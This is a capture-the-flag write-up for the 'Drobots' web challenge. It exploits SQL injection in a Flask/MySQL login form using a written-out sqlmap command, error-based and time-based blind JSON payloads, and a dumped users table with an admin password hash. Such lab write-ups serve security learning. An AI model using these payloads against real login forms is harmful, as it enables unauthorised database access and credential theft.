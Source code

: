 ## Drobots
> Solved by Legend

Challenge description 


> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

In this challenge the website is showing a login page.

![](https://i.imgur.com/uxHR1gT.png)


Since no other info was there or in the source code of the page I checked the docker config file.

The website is a `Flask` application running on `MySQL` so I thought of SQL Injection cand be done. Here I found interesting thing that in `config.py` file they have provided the database information.

![](https://i.imgur.com/07ijody.png)


Also in the `database.py` also they have given the hint that the input is not sanitized. 
The logic of the database is that we need the `token` of the password to login. So if we can find the token we can login.

![](https://i.imgur.com/hO6kBee.png)


Then I saved the login request and gave it to `sqlmap` though which I was able to extract the details.


    sqlmap -r ./req --dbms=mysql -D drobots -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 5866 FROM(SELECT COUNT(*),CONCAT(0x7162717071,(SELECT (ELT(5866=5866,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 4022 FROM (SELECT(SLEEP(5)))iMan) AND "a"="a","password":"a"}
    ---


    +----+----------------------------------+----------+
    | id | password                         | username |
    +----+----------------------------------+----------+
    | 1  | 67772d6e54bc393a6f67e16bac3f83da | admin    |
    +----+----------------------------------+----------+

Once logged in we get the flag.

![](https://i.imgur.com/4S5t7zw.png)
